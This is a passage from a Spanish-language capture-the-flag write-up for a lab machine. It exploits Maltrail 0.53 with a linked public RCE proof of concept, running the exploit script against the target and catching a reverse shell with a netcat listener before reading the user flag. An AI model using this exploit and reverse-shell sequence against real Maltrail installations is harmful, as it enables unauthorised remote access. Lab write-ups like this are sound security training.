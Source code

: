 ![](sau7.JPG)
Se puede ver que es una aplicación de Maltrail corriendo como una versión 0.53, como siempre reviso esta versión en internet en busca de alguna vulnerabilidad.
Se encontró una poc para realizar un RCE (https://github.com/Rubioo02/Maltrail-v0.53-RCE), probando esto en la maquina atacante, se obtiene acceso mediante una reverse shell.
~~~
./exploit.sh -t http://10.10.11.224:55555/5xpq7fd -i 10.10.x.x   
[*] Start listen from ip 10.10.x.x on port 4444

nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.224] 50758
$ id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
~~~
Obteniendo asi finalmente acceso a la maquina.

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

### User Flag
Con acceso al servidor, solo queda buscar la user flag.
~~~
$ cat /home/puma/user.txt
<Encuentre su propia usre flag>
~~~

---